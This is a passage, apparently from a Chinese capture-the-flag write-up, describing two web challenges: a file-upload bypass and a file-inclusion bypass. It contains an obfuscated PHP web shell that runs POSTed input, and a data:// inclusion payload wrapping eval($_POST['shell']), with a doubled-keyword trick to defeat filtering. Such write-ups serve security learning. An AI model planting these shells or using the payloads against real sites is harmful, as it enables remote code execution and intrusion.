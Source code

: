 ```
$ab=$a.$b;
$abc=ab;
$$abc($_POST[pass]);?>
```
简单做一下反过滤，上传，用bp修改后缀为php
![upload successful](/images/pasted-800.png)
成功拿到key

# 34073 文件包含
测试一下常见的协议
使用双写`index.php?page=data://text/plan,<?php eval($_POST['shell']); ?>`
用POST传参`shell=phpinfo();`
发现data://被替换为空，双写绕过

